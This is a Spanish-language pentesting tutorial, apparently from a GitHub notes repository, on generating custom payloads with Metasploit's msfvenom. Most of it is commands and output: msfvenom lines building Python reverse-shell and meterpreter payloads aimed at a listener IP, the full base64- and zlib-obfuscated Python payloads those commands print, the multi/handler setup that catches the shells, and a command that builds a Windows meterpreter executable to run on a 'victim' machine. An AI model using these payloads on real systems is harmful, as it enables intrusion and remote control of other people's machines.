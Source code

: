 # Metasploit (Creación de payloads personalizados)

Esta herramienta que viene con `metasploit` llamada `msfvenom` es un generador de `payloads`.

Si queremos crear por ejemplo un `payload` de `python` que haga una `reverse shell` podremos hacerlo de la siguiente forma:

```shell
msfvenom -p python/shell_reverse_tcp LHOST=192.168.16.128 LPORT=4444 
```

En el `LHOST` especificamos esa IP ya que es la IP de nuestra maquina a la que queremos que nos de la `shell` que se identifica con una `L` por delante y cuando es una `R` por delante es cuando nos referimos a la maquina victima.

Y el puerto puede ser el que queramos, pero de normal se suele utilizar el `4444`.

Si ejecutamos este comando, se nos generara un `payload` por terminal:

```
[-] No platform was selected, choosing Msf::Module::Platform::Python from the payload
[-] No arch selected, selecting arch: python from the payload
No encoder specified, outputting raw payload
Payload size: 416 bytes
exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eNpNjk1rwzAMQM/2r/AtNstME8rIBj6UkUIZ28qae0ltlZqmtrGc7e/PXnOYQIcnPX3YW/AxMfT6ComNyJDapTSfQvQaEEs5UvQK5d3jKDfb4+6jH2qUh8/Xt+Nh+Oo37yJLUnvnQCfOq+a5lc1Tl1M2bVfV6xxC0J+LnYANcYYXSozKIxH0N29W7VpQYs9sAseNUGqV++QUYbxSElSUex9KRxrQ3gCv5nR+7CpR4wWmSZWFNSZjXVF3+76An9M/ghgXyoe8CvJu5Puj4eLhj7OzMCX5NQRnuBf0Fx2BXIM=')[0])))
```

Indicando que ese codigo ultimo, si lo ponemos en algun `exploit` que cree una `reverse shell` y lo utilizamos con ese `payload` veremos que funciona.

Si por ejemplo queremos utilizar el `interpreter` avanzado de `metepreter` que es el mas utilizado y el mejor, en vez de que nos de su autocontenido, lo podemos hacer de la siguiente forma para que nos lo de mas simple:

```shell
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.16.128 LPORT=4444 
```

Info:

```
[-] No platform was selected, choosing Msf::Module::Platform::Python from the payload
[-] No arch selected, selecting arch: python from the payload
No encoder specified, outputting raw payload
Payload size: 436 bytes
exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eNo9UN9LxDAMfl7/ir41xV65jTnuDieI+CAigndvIrJ1Uce6drQ9nYr/uy07DCQhyZcvP/pxsi5Qb9WAQXzrvhVt47EqhQ/uqIII/Yjk1To6095Q15g3hHzNdyQL7ivazNdLs1wcFOIU7x+u7172h8ebq3uecFJZY1AFAJZvC5lXm6gyLzZMlFF4ArUOm4FkOCucQmJP46XXiBOcc6LrZSt5NFOjBmCXt0x46VB9QCR4Wj+Trj7FmpPP914j1Wig4xc60nVn/9XVkuYEZ1SQDpcdKjtODr2H5QeyrcqU7DAhxQ/zbOd/OfkDcFRfaw==')[0])))
```

Y con ese codigo lo podremos adaptar a algun `exploit` que haya una `reverse shell` para que nos de el `meterpreter` y no una `shell` normal y simple, pudiendo utilizar las funciones de `meterpreter`.

Pero claro, al utilizar un `meterpreter` se necesita utilizar un `exploit` que pueda soportar este tipo de `shell` que se llama `handler` en `metasploit`, por lo que haremos lo siguiente:

```shell
msfconsole -q
```

Seleccionamos el `exploit` que queremos utilizar, en este caso es el `handler`.

```shell
use multi/handler
```

Y lo configuramos acorde a lo que hayamos creado con `msfvenom`, que en mi caso seria lo siguiente:

```shell
set LHOST 192.168.16.128
set LPORT 4444
set payload python/meterpreter/reverse_tcp
```

Y con esto configurado solo le tendremos que dar a `run` para ejecutarlo y que este a la escucha.

Mientras tanto con el otro `exploit`, con ese codigo insertado:

```
exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eNo9UN9LxDAMfl7/ir41xV65jTnuDieI+CAigndvIrJ1Uce6drQ9nYr/uy07DCQhyZcvP/pxsi5Qb9WAQXzrvhVt47EqhQ/uqIII/Yjk1To6095Q15g3hHzNdyQL7ivazNdLs1wcFOIU7x+u7172h8ebq3uecFJZY1AFAJZvC5lXm6gyLzZMlFF4ArUOm4FkOCucQmJP46XXiBOcc6LrZSt5NFOjBmCXt0x46VB9QCR4Wj+Trj7FmpPP914j1Wig4xc60nVn/9XVkuYEZ1SQDpcdKjtODr2H5QeyrcqU7DAhxQ/zbOd/OfkDcFRfaw==')[0])))
```

Lo ejecutaremos y esto nos proporcionara una `shell` en el `handler` con el `meterpreter`, siendo todo mas comodo y mejor.

Tambien con `msfvenom` podemos generar ejecutables para diferentes sistemas operatvios, por ejemplo si queremos generar un `.exe` para `windows` podremos hacerlo de la siguiente forma:

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.16.128 LPORT=4444 -f exe > shell.exe
```

Y con esto nos creara un ejecutable `.exe`, por lo que esto solo lo tendremos que pasar a la maquina `windows` y estando a la escucha en el `handler` solo tendriamos que ejecutarlo y obtendriamos una `shell` en este caso con `meterpreter` de la maquina victima `windows`.
